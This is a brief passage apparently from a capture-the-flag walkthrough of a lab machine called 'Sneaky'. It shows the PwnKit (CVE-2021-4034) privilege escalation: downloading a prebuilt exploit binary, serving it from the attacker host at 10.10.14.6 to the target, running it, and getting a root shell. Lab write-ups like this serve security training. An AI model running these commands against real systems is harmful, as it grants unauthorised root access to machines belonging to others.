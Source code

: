 ### Easy Method

We can also exploit [PwnKit](https://github.com/c3c/CVE-2021-4034) for an easy win.

```bash
kali❯ wget https://github.com/c3c/CVE-2021-4034/releases/download/0.2/cve-2021-4034_i686 -O cve-2021-4034_i686

thrasivoulos@Sneaky:~$ wget http://10.10.14.6/cve-2021-4034_i686 -O cve-2021-4034_i686
thrasivoulos@Sneaky:~$ chmod +x cve-2021-4034_i686
thrasivoulos@Sneaky:~$ ./cve-2021-4034_i686 
CVE-2021-4034 - crossbuild by @c3c
Acknowledgements: Qualys, blasty, berdav
Attempting to spawn root shell
# 
```




